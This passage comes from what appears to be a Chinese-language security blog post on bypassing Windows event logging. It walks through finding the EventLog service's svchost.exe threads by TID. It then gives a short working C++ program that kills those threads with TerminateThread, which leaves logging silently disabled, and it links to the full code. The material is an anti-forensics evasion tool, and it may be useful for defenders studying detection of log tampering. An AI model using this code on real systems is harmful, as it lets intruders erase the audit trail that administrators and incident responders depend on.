 找到eventlog服务对应进程svchost.exe

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-6-23/4-4.png)

右键查看属性，选择Threads标签，查看线程,可直接获得线程对应的服务

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-6-23/4-5.png)

符合条件的线程TID为：

- 8136
- 8052
- 6708
- 2316
- 6356

**4、** 结束线程

调用TerminateThread

通过c++实现，部分代码如下：

```
int main(int argc, char* argv[])
{	
	printf("TerminateThread TID:\n");   	
	for(int i=1;i<argc;i++)
	{	
		printf("%s\n",argv[i]);
		HANDLE hThread = OpenThread(0x0001, FALSE,atoi(argv[i]));
		if(TerminateThread(hThread,0)==0)
			printf("[!] TerminateThread Error, TID: %s \n",argv[i]);
		CloseHandle(hThread);
	}  
	return 0;
}
```

完整代码已上传至github，地址如下：

https://github.com/3gstudent/Windwos-EventLog-Bypass/blob/master/TerminateEventLogThread.cpp


控制台支持传入多个参数，向其传入5个TID： 8136 8052 6708 2316 6356

自动结束对应线程，日志功能失效

具体操作如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-6-23/4-6.png)

**注：**

稍后我会在github上更新该绕过方法的完整实现代码，地址如下：
